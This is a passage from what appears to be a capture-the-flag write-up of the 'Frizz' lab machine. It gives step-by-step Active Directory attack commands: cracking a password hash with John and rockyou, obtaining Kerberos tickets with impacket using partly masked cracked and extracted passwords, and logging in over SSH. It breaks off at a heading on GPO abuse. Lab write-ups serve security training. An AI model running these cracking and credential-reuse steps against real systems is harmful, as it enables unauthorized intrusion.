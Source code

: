 **Password cracking (John):**

```
john --format=dynamic='sha256($s.$p)' --wordlist=/usr/share/wordlists/rockyou.txt fizz.txt
```

- **Result:** Jenni\_Luvs\_*******

---

## Kerberos TGT & User escalation

**Time synchronization (important!):**

```
sudo rdate -n frizzdc.frizz.htb
```

**Getting TGT:**

```
impacket-getTGT frizz.htb/f.frizzle:'Jenni_Luvs_*****' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=f.frizzle.ccache
```

**SSH login:**

```
ssh f.frizzle@10.10.11.60 -K
```

- **Obtaining user.txt**

---

## Further privesc – backup file / second user

**File:** `wapt-backup-sunday.7z` (f.frizzle Desktop)

- Downloaded via meterpreter or plain HTTP
- Internal password extracted, revealing another **AD user: M.SchoolBus / !suBc**

**Getting TGT for new user:**

```
impacket-getTGT frizz.htb/'M.SchoolBus':'!suBc*****' -dc-ip frizzdc.frizz.htb
export KRB5CCNAME=M.SchoolBus.ccache
```

**SSH login:**

```
ssh M.SchoolBus@10.10.11.60 -K
```

---

## Privesc: GPO abuse to gain SYSTEM privileges
